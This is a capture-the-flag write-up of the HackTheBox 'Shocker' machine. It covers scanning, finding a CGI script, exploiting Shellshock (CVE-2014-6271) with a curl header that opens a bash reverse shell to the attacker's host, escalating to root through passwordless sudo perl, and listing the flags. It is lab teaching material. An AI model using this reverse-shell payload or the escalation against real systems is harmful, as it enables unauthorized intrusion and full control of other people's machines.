 # hackthebox shocker writeup

[link to the box](https://app.hackthebox.com/machines/Shocker)

1. [scanning](#scanning)
2. [exploiting](#exploiting)
3. [pwning](#pwning)

# scanning

as with anything, we must first scan for open ports.

```
$ nmap -sV -Pn 10.10.10.56
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

looks like we have we website hosted on port 80, lets go there.

http://10.10.10.56:80/

which is a blank webpage with an image embedded in it. inspecting the header in burpsuite shows little information either.

but there are files stored on this webserver, like the image. lets run `gobuster` and see if we can spot anything else.

after trying a few wordlists, `small.txt` from the default kali wordlists gives us the following:

```
$ gobuster dir -w <wordlists dir>/dirb/small.txt --url http://10.10.10.56:80/
...
/cgi-bin/ (Status: 403)
...
```

this directory is special, since it hosts scripts that can be/are run by the webserver. we use `dirbuster` (instead of gobuster) to find some files with common scripting language extensions for a linux host:

```
$ cat script-extensions.txt
.pl
.php
.py
.sh
```

scanning into the directory using our extension list gets us the following:

```
$ dirb http://10.10.10.56:80/cgi-bin/ -x script-extensions.txt
...
---- Scanning URL: http://10.10.10.56:80/cgi-bin/ ----
+ http://10.10.10.56:80/cgi-bin/user.sh (CODE:200|SIZE:119)
...
```

by visiting this webpage we can run said `user.sh` script, but we cannot modify it directly.

![user.sh](img/usrsh.png)

# exploiting

since we know that `.sh` files are basically always bash scripts, we can look up ways to leverage this:

![search results for "exploit bash script on web server"](img/searchresults.png)

[this webpage](https://www.ampliasecurity.com/blog/2014/09/24/exploiting_bash_remote_code_execution_vulnerability_CVE-2014-6271/) explains nicely how to use this exploit. any script called using `/bin/bash -c <command>` is vulnerable!

running

`curl -H "User-Agent: () { :;}; echo; echo \"/bin/bash -i >& /dev/tcp/<your local ip>/<any sane port> 0>&1\" | /bin/bash" http://10.10.10.56:80/cgi-bin/user.sh`

will connect to your netcat listener you started using `nc -lvp <your local ip>`

we now have a reverse shell on the server!

# pwning

running `whoami` tells us that we are user `shelly`. we can probably find the user flag in `/home/shelly/`.

```
$ cat /home/shelly/user.txt
9fea9acc39d8f1b6fb04b319a74c5bf3
```

now we need to find root. the simplest way is to see what permissions `shelly` user has.

`/etc/sudoers` and `/etc/doas.conf` are unreadable and do not exist respectively. but we can still see what we can do using `sudo -l`.

and with no passwrod required, we have full access to `sudo /usr/bin/perl`. its pretty obvious how we can execute anything from perl.

to get a bash shell, run `sudo perl -e 'exec "/bin/bash"'`

`whoami` returns `root`

to get the flag, cat the flag in root's home directory

```
$ cat /root/root.txt
b949166b17a9d67175cd0f923d4213de
```
